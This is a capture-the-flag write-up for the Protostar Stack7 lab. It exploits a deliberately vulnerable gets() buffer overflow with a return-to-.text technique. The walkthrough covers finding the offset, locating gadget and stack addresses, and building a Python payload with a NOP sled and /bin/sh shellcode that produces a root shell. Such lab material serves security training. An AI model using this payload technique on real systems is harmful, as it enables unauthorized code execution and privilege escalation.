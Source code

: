 # Protostar - Stack7
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack7__
* About
  Stack6 introduces return to .text to gain code execution.

  The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

  This level is at /opt/protostar/bin/stack7

* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();



}

```

  After checking the code I found that the code prevent me to return to address began with 0xbXXXXXXX so I had to return to another address.

  First, we have to see what is the exact position of EIP by using pattern_create.rb
```
root@BOEING:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```
(gdb) run
Starting program: /opt/protostar/bin/stack7 
input path please: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

```
root@BOEING:~#  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q  0x37634136
[*] Exact match at offset 80
```

  I had 80-byte buffer. 

## Return to .Text
  .text is just a section of assembly code. We will now return to return instruction of getpath() function 
  1. Find the address of return instruction of getpath() function
```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   %ebp
0x080484c5 <getpath+1>: mov    %esp,%ebp
0x080484c7 <getpath+3>: sub    $0x68,%esp
0x080484ca <getpath+6>: mov    $0x8048620,%eax
0x080484cf <getpath+11>:        mov    %eax,(%esp)
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    0x8049780,%eax
0x080484dc <getpath+24>:        mov    %eax,(%esp)
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    -0x4c(%ebp),%eax
0x080484e7 <getpath+35>:        mov    %eax,(%esp)
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    0x4(%ebp),%eax
0x080484f2 <getpath+46>:        mov    %eax,-0xc(%ebp)
0x080484f5 <getpath+49>:        mov    -0xc(%ebp),%eax
0x080484f8 <getpath+52>:        and    $0xb0000000,%eax
0x080484fd <getpath+57>:        cmp    $0xb0000000,%eax
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    $0x8048634,%eax
0x08048509 <getpath+69>:        mov    -0xc(%ebp),%edx
0x0804850c <getpath+72>:        mov    %edx,0x4(%esp)
0x08048510 <getpath+76>:        mov    %eax,(%esp)
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        movl   $0x1,(%esp)
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    $0x8048640,%eax
0x08048529 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x0804852c <getpath+104>:       mov    %edx,0x4(%esp)
0x08048530 <getpath+108>:       mov    %eax,(%esp)
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    -0x4c(%ebp),%eax
0x0804853b <getpath+119>:       mov    %eax,(%esp)
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave  
0x08048544 <getpath+128>:       ret    
End of assembler dump.
(gdb) 
```
  The address of return instruction: 0x08048544

  2. Find the address of stack
```
(gdb) disassemble getpath 
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   %ebp
0x080484c5 <getpath+1>: mov    %esp,%ebp
0x080484c7 <getpath+3>: sub    $0x68,%esp
0x080484ca <getpath+6>: mov    $0x8048620,%eax
0x080484cf <getpath+11>:        mov    %eax,(%esp)
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    0x8049780,%eax
0x080484dc <getpath+24>:        mov    %eax,(%esp)
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    -0x4c(%ebp),%eax
0x080484e7 <getpath+35>:        mov    %eax,(%esp)
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    0x4(%ebp),%eax
0x080484f2 <getpath+46>:        mov    %eax,-0xc(%ebp)
0x080484f5 <getpath+49>:        mov    -0xc(%ebp),%eax
0x080484f8 <getpath+52>:        and    $0xb0000000,%eax
0x080484fd <getpath+57>:        cmp    $0xb0000000,%eax
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    $0x8048634,%eax
0x08048509 <getpath+69>:        mov    -0xc(%ebp),%edx
0x0804850c <getpath+72>:        mov    %edx,0x4(%esp)
0x08048510 <getpath+76>:        mov    %eax,(%esp)
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        movl   $0x1,(%esp)
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    $0x8048640,%eax
0x08048529 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x0804852c <getpath+104>:       mov    %edx,0x4(%esp)
0x08048530 <getpath+108>:       mov    %eax,(%esp)
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    -0x4c(%ebp),%eax
0x0804853b <getpath+119>:       mov    %eax,(%esp)
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave  
0x08048544 <getpath+128>:       ret    
End of assembler dump.
(gdb) b *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
(gdb) run
Starting program: /opt/protostar/bin/stack7 
input path please: AAAAAA
got path AAAAAA

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) x/40xw $esp
0xbffff7cc:     0x08048550      0x08048570      0x00000000      0xbffff858
0xbffff7dc:     0xb7eadc76      0x00000001      0xbffff884      0xbffff88c
0xbffff7ec:     0xb7fe1848      0xbffff840      0xffffffff      0xb7ffeff4
0xbffff7fc:     0x080482bc      0x00000001      0xbffff840      0xb7ff0626
0xbffff80c:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffff81c:     0x00000000      0xbffff858      0xd9f22846      0xf3a59e56
0xbffff82c:     0x00000000      0x00000000      0x00000000      0x00000001
0xbffff83c:     0x08048410      0x00000000      0xb7ff6210      0xb7eadb9b
0xbffff84c:     0xb7ffeff4      0x00000001      0x08048410      0x00000000
0xbffff85c:     0x08048431      0x08048545      0x00000001      0xbffff884
(gdb) s
```
  When the program hit the breakpoint at return instruction of getpath() it will pop the return address of the stack and move to another one. Then we will place next stack address with our shellcode so the address we will use is 0xbffff7cc + (current stack address 4) + (next stack address 4) = our shellcode address =  0xbffff7d4

  3. Prepare final payload
  > {NOP or Some Buffer}(80) + {Address of return instruction}(4) + {Address of stack}(4) + {NOPs sled}(100) + {Shellcode} 
```
python -c 'print("\x90"*(80) + "\x44\x85\x04\x08" + "\xd4\xf7\xff\xbf" +  "\x90"*100 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42")' > /tmp/exploit7_ret2text
```

Got the shell.
```
user@protostar:~$ python -c 'print("\x90"*(80) + "\x44\x85\x04\x08" + "\xd4\xf7\xff\xbf" +  "\x90"*100 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42")' > /tmp/exploit7_ret2text
user@protostar:~$ cat /tmp/exploit7_ret2text - | /opt/protostar/bin/stack7
input path please: got path in/shJAAAABBBB
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root

```
